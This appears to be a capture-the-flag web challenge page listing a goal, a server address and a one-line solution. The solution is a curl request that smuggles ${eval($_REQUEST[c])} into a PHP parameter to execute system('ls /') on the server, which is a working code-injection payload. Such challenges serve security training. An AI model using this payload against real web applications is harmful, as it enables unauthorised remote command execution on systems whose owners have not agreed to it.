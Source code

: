 #### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10001/

#### Solution
```
curl "http://localhost/?str=${eval($_REQUEST[c])}&c=system('ls /');"
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

